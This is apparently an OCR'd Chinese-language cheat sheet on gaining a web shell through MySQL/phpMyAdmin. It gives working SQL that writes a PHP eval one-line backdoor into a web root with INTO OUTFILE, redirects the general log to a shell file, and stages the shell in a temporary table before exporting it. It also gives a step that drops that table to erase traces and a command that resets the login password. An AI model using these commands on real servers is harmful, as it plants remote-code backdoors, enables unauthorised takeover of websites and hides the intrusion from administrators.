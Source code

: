 /Documetation.txt 

/translators.html

/doc/html/index.html

### Getshell方法

通过写入getshell

1、查询是否有写入条件：

 show VARIABLES like '%secure_file_priv%' == null 则没有条件，换成日志写入 （secure_file_priv值可在mysql中的my.ini中修改）

 show global variables like "secure%" 也可以查询

2、当具备条件时，写入一句话文件：

 select '<?php eval($_POST["pwd"]); ?>' into outfile 'D:/phpStudy_pro/WWW/shell.php';

3、其他信息收集查询命令：

 show variables like '%char%' === 查看系统变量

 select @@datadir ==== 系统路径

set PASSWORD=PASSWORD("") ========改登入密码（危害大）

利用日志getshell

1、条件：

 set global general_log = 'on' 日志保存状态

 set global general_log_file = "" 日志保存路径

2、写入shell： 

 select '<?php eval($_POST[pwd]); ?>';

 3）新建表getshell 

1、进入一个数据库，新建数据表。

 命令：Create TABLE shell_table (xxx text NOT NULL)

2、添加字段

 字段名任意，xxx

 字段类型为TEXT

3、在该表中点击插入，值为一句话木马

 <?php eval($_POST[pwd]); ?>'

 命令：Insert INTO shell_table (xxx) VALUES('<?php eval($_POST[1]);?>');

4、执行SQL查询，将该表中的内容导出到指定文件

 select * from shell_table into outfile "D:/phpstudy_pro/WWW/shell.php";

5、删除该表，抹除痕迹

 Drop TABLE IF EXISTS shell_table;
